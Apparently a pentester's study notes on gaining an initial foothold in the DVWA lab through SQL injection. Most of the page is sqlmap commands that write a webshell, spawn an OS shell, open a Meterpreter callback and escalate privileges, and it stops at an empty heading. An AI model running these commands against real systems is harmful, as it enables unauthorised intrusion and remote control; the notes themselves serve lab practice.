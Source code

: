 # 05 - Initial Foothold

#sql-injection #sqlmap #initial-foothold #dvwa

## 4.1 - Webshell

### 4.1.1 - Conditions

1. The DB user must have **FILE** and **SELECT** privileges with the flags `--privileges -U CU`.
2. Find the web root directory using the enumeration methods.
3. The web root directory must have write permissions.

### 4.1.2 - Upload a specific Webshell

Refer to this [[Pentesting Phases/Initial Access/Callback Shells/Webshells/Webshells|link]] to generate interactive weevely webshells and click [[Weevely|here]] for post exploitation section.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --file-write="/path/to/webshell.php" --file-dest="/var/www/html/dvwa/shell.php"
```

### 4.1.3 - Spawn an Interactive Webshell

TODO: Provide **\[INFO\]** logs  to demonstrate a different between a file web stager (the uploader file) and a backdoor (an interactive shell)

Great thing about SQLMap that not only it uploads an interactive **web backdoor (the webshell)** it also comes with the **web file stager (the uploader)**.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --os-shell --web-root="/var/www/html/dvwa/"
```

### 4.1.4 - Spawn a Meterpreter Shell

- Start a shell handler listener in Metasploit to retrieve a callback meterpreter session.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --os-pwn --web-root="/var/www/html/dvwa/"
```

Note: when using the `--priv-esc` flag this is for targeting Windows operating systems to automate using the `getsystem` function for impersonation.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --random-agent --os-pwn --web-root="/var/www/html/dvwa/" --priv-esc
```

### 4.1.5 - Execute OS Command

#### 4.1.5.1 - General
